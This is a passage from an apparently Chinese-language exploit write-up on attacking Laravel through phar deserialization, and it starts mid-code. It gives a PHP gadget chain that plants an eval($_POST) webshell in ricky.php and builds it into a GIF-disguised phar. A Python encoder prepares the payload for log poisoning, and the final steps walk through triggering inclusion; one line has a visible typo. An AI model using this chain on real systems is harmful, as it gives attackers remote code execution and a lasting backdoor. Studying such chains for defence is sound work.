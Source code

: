 ```
    `}`
`}`

namespace Illuminate\Auth `{`
    class RequestGuard `{`
        protected $user;
        protected $callback;
        protected $request = 'ricky.php';
        protected $provider = '&lt;?php eval($_POST[ricky]);?&gt;';
        public function __construct($callback) `{`
            $this-&gt;callback = $callback;
        `}`
    `}`
`}`

namespace `{`
    use Illuminate\Auth\RequestGuard;
    use Illuminate\Filesystem\Filesystem;
    use Illuminate\Validation\Validator;
    use Illuminate\Broadcasting\PendingBroadcast;

    $c = new RequestGuard([new Filesystem(), 'append']);
    $b = new Validator(array(''=&gt;'call_user_func'));
    $a = new PendingBroadcast($b, [$c, 'user']);

    $phar = new Phar("phar.phar"); //生成phar文件
    $phar-&gt;startBuffering();
    $phar-&gt;setStub('GIF89a'.'&lt;?php __HALT_COMPILER(); ? &gt;');
    $phar-&gt;setMetadata($a); //触发头是C1e4r类
    $phar-&gt;addFromString("exp.txt", "test"); //生成签名
    $phar-&gt;stopBuffering();
`}`
```

生成 phar 文件再把里面的内容转为 base64 字符

[![](https://p1.ssl.qhimg.com/t013220f9b52056efd4.png)](https://p1.ssl.qhimg.com/t013220f9b52056efd4.png)

然后 python 转换

```
# -*-coding:utf-8-*-
import base64a
s = '你的base64的payload'
r = ''.join(["=" + hex(ord(i))[2:] + "=00" for i in s]).upper()
print(r+'a')  # 因为后面有), 加入一个干扰字符会将我们的phar内容保留下来
```

然后先传入任意不存在文件报错 &gt; 生成 log 文件 &gt; 传入payload &gt; 执行清空 log 文件的步骤

最后我们 phar反序列化包含即可成功

[![](https://p2.ssl.qhimg.com/t017e1082cdebfd211d.png)](https://p2.ssl.qhimg.com/t017e1082cdebfd211d.png)
